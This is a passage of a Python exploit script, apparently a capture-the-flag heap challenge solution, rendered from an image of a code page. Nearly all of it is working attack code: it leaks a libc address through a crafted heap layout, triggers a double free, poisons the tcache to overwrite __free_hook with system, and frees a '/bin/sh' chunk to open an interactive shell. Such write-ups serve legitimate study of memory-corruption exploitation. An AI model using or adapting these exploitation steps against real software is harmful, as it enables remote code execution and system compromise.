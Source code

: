 ```python

select(5) # resume the root, idx == 5 is var2 == 2

#2. leak libc
#construct a pointer in the heap such that
#	[p + 0x28] == nullptr
#	[p + 8] == libc addr

# use manager.buf to construct unsorted bin
for i in xrange(0, 0x90):
	add(4 + i)
delete(0x35) # construct [p + 0x28] == nullptr
for i in xrange(0x90, 0xa0-5):
	add(4 + i)
# p == 0x3150
empty_root2 = heap_addr + 0x57c8
add(empty_root2) # used to prevent cycling
empty_root = heap_addr + 0x5788
add(empty_root) # used to prevent cycling
add(heap_addr + 0x3100)
add(u64("/bin/sh\x00")) 
#some preparation for shell

hv2 = heap_addr + 0x3150
add(hv2)

libc_addr = select(-7296 / 8) - 0x3ebca0
print hex(libc_addr)

select(0x528/8) # the one with var2 == heap150 is root

#3. get shell
#delete a root node with parent == nullptr
#select such that root points to the freed root node
#free it, cause double free
#tcache poison to rewrite __free_hook
delete(hv2) #delete root
select(-7456/8) #reset root to freed root node
delete(0) #double free, 0x50 chunk poisoned, var2 == next == nullptr == 0
select(-7536/8) #prevent cycle maybe? it will loop forever if we don't have this
#reset the root to prevent cycling, the fake root must be empty

add(libc_addr + e.symbols["__free_hook"])
select(-7616/8) #reset the root to prevent cycling, the fake root must be empty
add(libc_addr + 0x4f322) # consume bin
add(libc_addr + e.symbols["system"]) # rewrite here

add(u64("/bin/sh\x00")) 
delete(u64("/bin/sh\x00"))

sh.interactive()
```
